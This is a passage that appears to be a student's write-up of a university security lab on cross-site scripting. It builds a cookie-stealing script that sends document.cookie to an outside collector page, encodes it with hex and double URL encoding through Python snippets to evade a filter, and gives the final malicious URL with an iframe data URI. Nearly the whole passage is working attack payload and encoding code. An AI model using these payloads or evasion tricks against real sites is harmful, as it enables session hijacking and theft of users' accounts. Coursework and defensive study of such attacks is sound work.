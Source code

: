 Where "%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E" corresponds to "<script>alert(1)</script>". Refer to [this page](https://www.url-encode-decode.com/) for more informatino. Basically, `%HH` where `HH` corresponds to the hex value of the character.

Write the following python script to encode:

```python
s = "<script>var img=new Image();img.src='https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie='+document.cookie;</script>"
ss = ""
for c in list(s):
    ss += "%" + hex(ord(c)).upper()[2:]
print(ss)
```

Hence, the payload is

```
%3C%73%63%72%69%70%74%3E%76%61%72%20%69%6D%67%3D%6E%65%77%20%49%6D%61%67%65%28%29%3B%69%6D%67%2E%73%72%63%3D%27%68%74%74%70%73%3A%2F%2F%68%6F%6D%65%73%2E%63%73%2E%77%61%73%68%69%6E%67%74%6F%6E%2E%65%64%75%2F%7E%7A%65%74%69%61%63%2F%43%6F%6F%6B%69%65%45%61%74%65%72%2E%70%68%70%3F%63%6F%6F%6B%69%65%3D%27%2B%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%3B%3C%2F%73%63%72%69%70%74%3E
```

Use the following python code to urlencode it:

```python
import urllib.parse
s = '%3C%73%63%72%69%70%74%3E%76%61%72%20%69%6D%67%3D%6E%65%77%20%49%6D%61%67%65%28%29%3B%69%6D%67%2E%73%72%63%3D%27%68%74%74%70%73%3A%2F%2F%68%6F%6D%65%73%2E%63%73%2E%77%61%73%68%69%6E%67%74%6F%6E%2E%65%64%75%2F%7E%7A%65%74%69%61%63%2F%43%6F%6F%6B%69%65%45%61%74%65%72%2E%70%68%70%3F%63%6F%6F%6B%69%65%3D%27%2B%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%3B%3C%2F%73%63%72%69%70%74%3E'
ss = urllib.parse.quote_plus(s)
print(ss)
```

The resulting urlencoded payload is:

```
%253C%2573%2563%2572%2569%2570%2574%253E%2576%2561%2572%2520%2569%256D%2567%253D%256E%2565%2577%2520%2549%256D%2561%2567%2565%2528%2529%253B%2569%256D%2567%252E%2573%2572%2563%253D%2527%2568%2574%2574%2570%2573%253A%252F%252F%2568%256F%256D%2565%2573%252E%2563%2573%252E%2577%2561%2573%2568%2569%256E%2567%2574%256F%256E%252E%2565%2564%2575%252F%257E%257A%2565%2574%2569%2561%2563%252F%2543%256F%256F%256B%2569%2565%2545%2561%2574%2565%2572%252E%2570%2568%2570%253F%2563%256F%256F%256B%2569%2565%253D%2527%252B%2564%256F%2563%2575%256D%2565%256E%2574%252E%2563%256F%256F%256B%2569%2565%253B%253C%252F%2573%2563%2572%2569%2570%2574%253E
```

Therefore, the url we want to use is:

```
http://codered.cs.washington.edu/lab2/pmc/reallyhard.php?url=<iframe/src="data:text/html,%253C%2573%2563%2572%2569%2570%2574%253E%2576%2561%2572%2520%2569%256D%2567%253D%256E%2565%2577%2520%2549%256D%2561%2567%2565%2528%2529%253B%2569%256D%2567%252E%2573%2572%2563%253D%2527%2568%2574%2574%2570%2573%253A%252F%252F%2568%256F%256D%2565%2573%252E%2563%2573%252E%2577%2561%2573%2568%2569%256E%2567%2574%256F%256E%252E%2565%2564%2575%252F%257E%257A%2565%2574%2569%2561%2563%252F%2543%256F%256F%256B%2569%2565%2545%2561%2574%2565%2572%252E%2570%2568%2570%253F%2563%256F%256F%256B%2569%2565%253D%2527%252B%2564%256F%2563%2575%256D%2565%256E%2574%252E%2563%256F%256F%256B%2569%2565%253B%253C%252F%2573%2563%2572%2569%2570%2574%253E"></iframe>
```
